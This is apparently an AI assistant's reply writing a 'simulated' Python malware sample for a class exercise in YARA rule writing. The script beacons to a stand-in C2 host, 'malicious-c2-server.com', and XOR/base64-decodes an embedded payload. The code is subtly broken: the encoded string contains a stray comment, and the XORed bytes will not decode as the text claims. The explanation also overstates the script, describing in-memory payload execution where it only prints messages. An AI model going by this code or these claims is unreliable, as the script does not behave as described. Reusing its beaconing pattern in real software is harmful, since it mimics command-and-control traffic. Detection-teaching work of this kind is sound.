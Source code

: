 Sure! I'll create the **malware sample** script for you to give your students. This script will simulate **advanced malware behavior** such as **obfuscation**, **fileless execution**, **network persistence**, and **simulated process injection**. I'll break it down into simple steps so your students can follow and understand it.

Here is the **advanced malware script** that you can provide to them:

---

### **Advanced Sample Malware Script (Python)**

```python
import os
import base64
import socket
import time
import threading

# Fake Command-and-Control (C2) server details (educational purposes only)
C2_SERVER = "malicious-c2-server.com"
C2_PORT = 12345

# XOR encryption key to simulate obfuscation
XOR_KEY = 0xAA

# Malicious payload encoded in base64 (simulated payload)
ENCODED_PAYLOAD = """
U29tZSBtaW5kYm94IHJlYWwgY29tcGxleCBjb250ZW50Lg==  # Base64 encoded: "Some mindbox real complex content."
"""

# Function to decode the XOR-encoded payload and base64 decode it
def xor_decrypt(data, key):
    return bytearray([b ^ key for b in data])

# Simulating fileless execution by decoding payload in memory
def simulate_fileless_execution():
    print("[INFO] Executing malicious behavior in memory without writing to disk.")
    decoded_payload = base64.b64decode(ENCODED_PAYLOAD)
    payload = xor_decrypt(decoded_payload, XOR_KEY)
    print(f"[INFO] Payload executed: {payload.decode()}")

# Simulating network persistence (connecting to fake C2 server)
def simulate_network_persistence():
    print("[INFO] Attempting to connect to C2 server for persistence...")
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((C2_SERVER, C2_PORT))
        s.send(b"Hello C2 server, I am a malware!")
        s.close()
        print("[INFO] Successfully connected to C2 server.")
    except Exception as e:
        print(f"[ERROR] Failed to connect to C2 server: {e}")

# Simulate process injection (this is just a simulation for educational purposes)
def simulate_process_injection():
    print("[INFO] Simulating process injection (not actually performing injection).")
    time.sleep(2)  # Simulate some delay
    print("[INFO] Process injected with malicious code.")

# Main function that runs the simulated malware activities in parallel threads
def main():
    print("[INFO] Starting simulated malware execution...")
    threading.Thread(target=simulate_network_persistence).start()  # Network Persistence
    threading.Thread(target=simulate_fileless_execution).start()  # Fileless Execution
    threading.Thread(target=simulate_process_injection).start()  # Process Injection

if __name__ == "__main__":
    main()
```

---

### **Instructions to Run and Analyze This Sample:**

1. **Download or Create the Script**:
   - Copy and paste the Python code above into a `.py` file (e.g., `malware_sample.py`).

2. **Set Up a Controlled Environment**:
   - **Always** run this script in an isolated **sandbox** or a **VM** with no access to your personal or production systems.
   - Ensure that **network connections** are monitored (using tools like Wireshark or tcpdump) to analyze potential C2 server communication.

3. **Execute the Script**:
   - Run the script by executing it via the command line:
     ```bash
     python3 malware_sample.py
     ```

4. **Behavior to Observe**:
   - **Console Output**: The script will print messages to the console, such as:
     - `"Executing malicious behavior in memory without writing to disk."`
     - `"Attempting to connect to C2 server for persistence..."` (this is simulated)
     - `"Simulating process injection..."` (for educational purposes)
   - **Network Traffic**: The script will simulate connecting to a fake **C2 server** (`malicious-c2-server.com`), so monitor the network traffic using tools like Wireshark.
   - **Fileless Execution**: The malicious payload will be executed entirely in memory (no files are written to disk).

---

### **Deliverables for Students:**

1. **YARA Rules to Write**:
   - **Rule 1**: Detect the **Base64**-encoded payload. 
   - **Rule 2**: Identify the **XOR** encryption pattern and the decoded malicious content.
   - **Rule 3**: Detect any **network persistence** behavior, such as attempting to connect to a fake C2 server.
   - **Rule 4**: Look for signs of **process injection** attempts (even though it's simulated in the script).

2. **Test and Validation**:
   - Students should use their YARA rules to test the malware sample by running:
     ```bash
     yara -r yara_rules.yara /path/to/malware_sample.py
     ```

3. **Documentation**:
   - Students should document their findings in a report that includes:
     - **YARA rules** created.
     - **Indicators of Compromise** (IoCs) such as XOR key, Base64 payload, and C2 server address.
     - **Testing Process**: How they tested their rules and results.
     - Any issues faced during detection and steps taken to resolve them.

---

### **Key Concepts to Teach:**
1. **Obfuscation**: The malware uses XOR encryption and Base64 encoding to obfuscate its malicious payload.
2. **Fileless Execution**: The script runs the malicious code in memory without writing it to the disk, evading simple file-based detection methods.
3. **Network Persistence**: The malware simulates connecting to a remote server (C2) for persistence.
4. **Process Injection**: The script simulates process injection, which is a common technique used by advanced malware to hide itself within legitimate processes.

---

### **Testing and Evaluation**:
- Ensure that the students' **YARA rules** can detect the Base64 payload, XOR encoding, and network persistence.
- Monitor whether the rules produce any **false positives** and guide the students on **optimizing** their rules.

---

Let me know if you need further customization or additional features in the malware sample!